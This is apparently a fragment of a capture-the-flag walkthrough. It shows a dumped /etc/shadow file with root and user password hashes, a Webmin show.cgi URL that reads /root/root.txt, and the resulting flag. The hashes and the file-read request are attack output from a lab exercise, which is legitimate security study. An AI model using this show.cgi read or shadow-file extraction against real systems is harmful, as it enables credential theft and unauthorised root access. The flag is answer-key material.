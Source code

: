 ```
root:$6$Llhg4MdC$f9TRe8xLelwHpj5JvCNprpWBnHppEnryPo1mGiKW2U71SpTVZRRE0f7/3kZsIwNsRpcc7GlcVSnuYfiN5n7Yw.:18124:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
lxd:*:18122:0:99999:7:::
messagebus:*:18122:0:99999:7:::
uuidd:*:18122:0:99999:7:::
dnsmasq:*:18122:0:99999:7:::
sshd:*:18122:0:99999:7:::
agent47:$6$QRnDATVa$Dhv2K3GVe40X5hxB/vrdBeBDOYwtwGzFZfEL6/MdvOyO6S2w6pmaZy/h4j.3DKrCGtXoqkVTy.PDJsuOeZ6In1:18124:0:99999:7:::
mysql:!:18122:0:99999:7:::
```

[http://localhost:10000/file/show.cgi/root/root.txt](http://localhost:10000/file/show.cgi/root/root.txt)

`a4b945830144bdd71908d12d902adeee`
